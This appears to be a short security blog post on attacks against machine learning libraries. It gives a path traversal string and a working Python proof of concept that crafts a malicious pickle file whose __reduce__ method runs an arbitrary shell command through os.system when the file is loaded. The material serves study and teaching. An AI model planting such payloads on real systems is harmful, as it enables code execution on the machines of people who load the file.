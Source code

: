 ```yaml
---
title: Machine Learning Attack
layout: post
categories: ML
tags: ML
date: 2022-07-14 08:00
excerpt: Machine Learning Attack
---
```


{:.table-of-content}
* TOC
{:toc}

# Machine Learning Attack
> https://research.nccgroup.com/wp-content/uploads/2022/07/practical-attacks-on-ml.pdf

## Library Attack
> https://github.com/stealth/tensor-pwn/

### path traversal
```
../../../../xxx
```

### pickle
> When the **Pickler** encounters an object of a type it knows nothing about — such as an extension type — it looks in two places for a hint of how to pickle it. One alternative is for the object to implement a **__reduce__()** method. If provided, at pickling time **__reduce__()** will be called with no arguments, and it must return either a string or a tuple.

- create malicious pkl file
```python
import pickle, sys
DEFAULT_COMMAND = 'echo You Are Hacked'
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND
class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))
with open("rs.pkl", "wb") as f:
    pickle.dump(PickleRce(), f)
```

- load pkl file
```python
import pickle
with open("rs.pkl", "rb") as f:
    obj = pickle.load(f)
```
